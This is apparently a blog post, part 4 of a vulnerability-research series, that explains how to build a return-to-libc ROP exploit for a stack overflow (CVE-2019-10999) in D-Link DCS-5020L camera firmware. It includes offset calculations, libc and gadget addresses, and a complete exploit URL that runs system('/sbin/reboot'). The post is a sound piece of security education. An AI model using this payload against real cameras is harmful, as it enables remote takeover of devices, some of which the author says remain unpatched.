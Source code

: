 ```yaml
---
layout: post
title:  "D-Link DCS-5020L Vuln Assessment Pt. 4"
date:   2020-04-09 16:44:11 -0400
categories: exploits
---
```


# Exploitation

## The Finale
This is the part you've been waiting for right? We've downloaded a firmware, 
scoured through it for hours, found a vulnerability, emulated it, and now it's 
time. Time to write an exploit to gain control of the camera and make it do our 
bidding. Or at least run a command we tell it to. In part 3 we overwrote the 
return address by sending an arbitrarily long string by holding down the A key 
for a while. This approach, while easy, is not very scientific and probably won't 
result in reliable control over where we jump. Whip out your calculator, it's 
time to do some math.

## The Stack
Before we get into overwriting the return address it's useful to know where
the return address is. But first, let's go over how the stack is laid out when
the vulnerable function is called. The stack will start at some high address,
typically I've seen 0x7FFFFFFF, and grow down in memory. Reads and writes go up 
in memory. Now, with that knowledge let's look at the prologue in the vulnerable 
function for a practical example.

![prologue]({{site.baseurl}}/assets/images/dcs-5020l/dcs-5020L_4_img/prologue.png)

The first operation, `addiu` (add immediate unsigned), will move our stack 
pointer down in memory which is how it allocates space for the function's local 
variables. The `sw` (store word) operations below that are saving registers on 
the stack so they can be restored after this function is complete. The remaining 
space on the stack that is not being used by the registers is for local variables. 
The top of the function's disassembly in IDA the offsets of variables on the 
stack and based off the prologue we can rename the variables to be more easily tracked.

![Renaming variables on the stack]({{site.baseurl}}/assets/images/dcs-5020l/dcs-5020L_4_img/stack_converted.png)

And what the stack actually looks like.

![Stack setup]({{site.baseurl}}/assets/images/dcs-5020l/dcs-5020L_4_img/stack_setup.png)

## That Little Bit of Math
Now we are ready to figure out how many 'A's to write to our buffer to control 
execution. Looking back at the `strcpy` in IDA, we need to find out which stack 
value is used as the destination buffer.

![string copy viewed in IDA]({{site.baseurl}}/assets/images/dcs-5020l/dcs-5020L_4_img/strcpy_ida.png)

Register `$a0` is populated with `var_30` which is the last piece of the puzzle. 
We now know where the destination buffer is on the stack and we also know where 
the return address is stored. Simple math time. Our buffer, `var_30`, is at 
offset -30 and the return address, `$ra`, is at offset -8 so the simple math to 
calculate the distance between the two is 0x30 minus 0x8 which equals 0x28. If 
we write 0x28 bytes (40 decimal) into the buffer that will take us right up to 
the return address. The next four bytes we write will overwrite the return 
address. A [wget](https://en.wikipedia.org/wiki/Wget) command combined with IDA 
debugging will prove if this value is correct. I went back to user mode 
emulation for this so I didn't have to worry about setting the referer or providing a password.

```bash
wget http://127.0.0.1/wireless.htm?WEPEncryption=$(python3 -c "print('A' * 0x28, end=''); print('BBBB')")
```

![Return address filled with BBBB]({{site.baseurl}}/assets/images/dcs-5020l/dcs-5020L_4_img/bbbb_ra.png)

Notice how `$ra` is filled with 42424242 (BBBB) now instead of 4141414 (AAAA) 
that we saw in part 3? We have successfully overwritten the return address and 
can control execution. The next step is identifying a useful address to jump to 
instead of 0x42424242.

## Returning to LibC
The best option for executing a command on this camera is to perform a
[return to libc attack](https://en.wikipedia.org/wiki/Return-to-libc_attack). 
This is one of a few options we have for exploiting the overflow, but this is 
the simplest option that will work. Basically we want to call system with a 
string we provide to perform a useful operation. Something like calling 
`/sbin/reboot` to restart the router. To accomplish this we need a few bits of information.

  * Address of libc.
  * Address of system.
  * Address of a gadget to place a string in $a0.
  * Offset on the stack to write our command.

Finding the address of libc is a pretty easy task. The kernel for this firmware 
is 2.6.21 and library load randomization wasn't a thing until 2.6.36 so the load 
address of the library will be consistent every time the server is run. Finding 
the address is as simple as a `cat` of the process mapping for this process. The 
library for libc in this firmware is libuClibc-0.9.28.so, notice how it appears 
in the mappings three times. We need to chose the executable one so we can 
execute code when we jump to it. To find that we are looking for the one with 
the `x` permission, or `r-xp`. Based on the image below our load address for libc is 0x2AB86000.

![Process Mapping]({{site.baseurl}}/assets/images/dcs-5020l/dcs-5020L_4_img/libc_address.png)

Finding the address of system requires loading the libc library in IDA and 
viewing the offset of the system function. Once found, adding that offset to 
the load address of libc will provide the address of system when the process is 
running. From the image below and the address we just found the loaded address of 
system will be

```
0x2AB86000 + 0x45080 = 0x2ABCB080
```

![System Call]({{site.baseurl}}/assets/images/dcs-5020l/dcs-5020L_4_img/system.png)

Next we need a gadget, known as a 
[ROP](https://en.wikipedia.org/wiki/Return-oriented_programming) gadget, that 
will move a stack address into `$a0`, move an `$s` register to `$t9`, and call 
`$t9`. This will allow us to call system with a command we provide in the 
overflow. Sadly, there are no usable gadgets that move a stack pointer to `$a0` 
and call an `$s` register so this exploit required two gadgets. The two gadgets 
from libc I chose are:

        ----------------------------------------------------------------
        | Gadget Name | Gadget Offset | Gadget Summary                 |
        ----------------------------------------------------------------
        | ROP1        | 0x0004B0F8    | move    $t9, $s0               |
        |             |               | jalr    $t9 ; sub_4A890        |
        |             |               | addiu   $s2, $sp, 0x1E8+var_F8 |
        ----------------------------------------------------------------
        | ROP2        | 0x00018F40    | move    $t9, $s1               |
        |             |               | jalr    $t9 ; sub_18EB0        |
        |             |               | move    $a0, $s2               |
        ----------------------------------------------------------------
Because both gadgets came from libc the math to find their loaded address is the same.

* ROP1 - `0x2AB86000 + 0x4B0F8 = 0x2ABD10F8`
* ROP2 - `0x2AB86000 + 0x18F40 = 0x2AB9EF40`

ROP1 will perform the task of moving a stack value from an offset into an `$s` 
register. This operation happens in the third line of the gadget 
`addiu $s2, $sp, 0x1E8+var_F8`. The string will come from offset 
`0x1E8 - 0xF8 = 0xF0` and be stored in register `$s2`.

ROP2 will perform the task of moving a function pointer from an `$s` register 
to `$t9`, moving an `$s` register to `$a0`, and calling `$t9`. In our case we 
will put the address of `sytem` in `$s1`, so it will be moved to `$t9`. We 
placed our string in `$s2` in the last gadget and it will be moved to `$a0` to 
be the paramter when calling system.

Given all this information we need our stack to look like this:

![ROP Stack]({{site.baseurl}}/assets/images/dcs-5020l/dcs-5020L_4_img/rop_stack.png)

The addresses are sent in reverse because this is a little endian architecture 
firmware. The new URL looks like this:

http://IP:PORT/wireless.htm?WEPEncryption=AAAAAAAAAAAAAAAA@%EF%B9%2A%80%B0%BC%2AAAAAAAAAAAAAAAAA%F8%10%BD%2AAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB/sbin/reboot

If everything works out this should call `system` with the parameter 
`/sbin/reboot` which means we can run any command we want.

![ROP to system]({{site.baseurl}}/assets/images/dcs-5020l/dcs-5020L_4_img/system_rop.png)

## Conclusion
I'm in.

This bug is present if a few different D-Link cameras and has been patched in a 
few of them already. A few, sadly, remain unpatched at the time of writing. 
Might be a different story when you are reading this. If you want full source 
code for this exploit you can grab it on my github [here](https://github.com/fuzzywalls/CVE-2019-10999).
The CVE number is [CVE-2019-10999](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10999).
Thanks for reading, come back for more exploits later!
